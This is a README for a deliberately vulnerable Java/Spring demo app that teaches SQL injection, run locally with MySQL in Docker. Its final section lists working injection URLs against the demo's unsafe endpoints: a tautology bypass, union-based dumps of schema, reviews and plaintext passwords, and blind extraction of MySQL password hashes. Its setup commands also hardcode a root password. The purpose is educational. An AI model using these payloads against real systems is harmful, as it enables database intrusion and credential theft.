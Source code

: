 # SQL Injection in Java: Practices to Avoid

Thanks
    https://sec.okta.com/articles/2020/12/sql-injection-java-practices-avoid

### Requirements
* Docker desktop
* Java 8


### Start Mysql in Docker
Since we need to show vulnerabilities with Stored procedure and 'Principle of least privileges' we are using a Mysql
instance running in Docker

Build Docker image 

    cd mysql-in-docker/sqlinjection
    docker build -t sqlinjection_demo:latest .

Run docker 

    docker run -p 3307:3306 --name local-mysql -e MYSQL_ROOT_PASSWORD=11asd097asd -d sqlinjection_demo:latest

### Run the application

    cd ../../
    ./mvnw spring-boot:run
    
### Connect to mySql
To connect to mySql use

    Open terminal and run "mysql -h 127.0.0.1 -P 3307 -uroot -p11asd097asd"  
    
    Feel free to inspect mySql content:
    mysql> "show schemas;"
    mysql> "show databases;"
    
    select * from employees.employee;
    select * from management.employee_review;
    SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
    SELECT * FROM INFORMATION_SCHEMA.TABLES; 
    select authentication_string from mysql.user where User='empdb_user'; 
    
        
# Additional info


    
Normal call

    http://127.0.0.1:8080/filterUserUnSafe?name=Frodo
    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret
    
Simple SQLi

    http://localhost:8080/filterUserJdbcUnSafe?name=Bilbo'or'1'='1  

Union based SQLi to get table_schema,table_name FROM information_Schema.tables
    
    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo'union all select 1, concat(table_schema,'-----', table_name), table_name, 'STAFF'   from information_Schema.tables where '1'='1


Union based SQLi to get data from any table

    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo’ union all select 1, concat(review,’-----',rating),review,  ‘STAFF’  from management.employee_review where ‘1’=’1


Union based SQLi to get plain passwords
    
    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(name,'-----',password), password, 'STAFF'   from employees.employee where '1'='1

Blind SQLi to get chars from mysql.user
    
    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret' and (select CASE WHEN (substring(authentication_string,1,1) = '$' ) THEN true ELSE false END from  mysql.user where User = 'empdb_user') or ' 

?    
Blind SQL injection to get some data from INFORMATION_SCHEMA

    http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret%27%20and%20(select%20CASE%20WHEN%20(substring(authentication_string,1,1)%20=%20%27$%27%20)%20THEN%20true%20ELSE%20false%20END%20from%20%20mysql.user%20where%20User%20=%20%27empdb_user%27)%20or%20%27    